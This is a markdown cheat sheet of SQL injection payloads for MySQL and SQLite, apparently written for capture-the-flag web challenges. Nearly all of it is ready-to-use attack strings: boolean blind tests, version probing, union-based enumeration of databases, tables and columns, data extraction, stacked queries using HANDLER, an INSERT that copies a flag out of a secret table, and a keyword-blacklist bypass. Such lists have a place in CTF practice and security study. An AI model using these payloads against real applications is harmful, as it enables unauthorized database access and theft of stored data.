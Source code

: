 ## MySQL

### Comment
  - `#`
  - `-- `
  - `/*comment*/`

### Blind sqli
  - Finding correct payload
      - `admin' and (1=0)#` *return false*
      - `admin' and (1=1)#` *return true*
        
  - Find version [code](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_blind_getversion.py)
      - `admin' and (SELECT LENGTH(VERSION())=6)#`
      - `admin' and (SELECT ASCII(SUBSTRING(VERSION(),1,1))=53)#`


- Extract number column

  - `'union select 1,2,3#`
  - `' order by 3#` 

- Confirming injection visible

  - `'union select @@version,2,3#`

- Extract database names

  - `';show databases;#`
  - `'union select group_concat(0x7c,schema_name,0x7c),2,3 from information_schema.schemata#`

- Extract table neams from database

  - `';show tables;#`
  - `'union select group_concat(0x7c,table_name,0x7c),2,3 from information_schema.tables where table_schema='<DATABASE_NAME>'#`

- Extract column names from table name
  
  ```
  ';show columns from <TABLE_NAME>;#
  ';show columns from `1919810931114514`;# if table name is number it must be queried with backtricks
  'union select group_concat(0x7c,column_name,0x7c),2,3 from information_schema.columns where table_name='<TABLE_NAME>'#
  ```

- Extract data

  - `'union select <COLUMN_NAME>,'b','c' from <DATABASE_NAME>.<TABLE_NAME> where id='1'#`

### Tricks

  - Read data from column name
    ```
    1'; handler <COLUMN_NAME> open as `a`; handler `a` read next;#
    ```


## SQLite
- Extract previous query
  - `union select sql from sqlite_master`

- Extract table names 
  - `union select name from sqlite_master where type='table'--`
  
- Extract column names from table name
  - `union select sql from sqlite_master where type='table' and name='<table_name>'--`
  
- Extract data using column and table name
  - `union select <column_name> from <table_name> where id=1--`

### Insert
  - `INSERT INTO notes(username, notes) VALUES('admin', (SELECT flag FROM secret LIMIT 0,1)); -- -`

### Tricks

  - Bypass blacklist words
    - `ad'||'min`

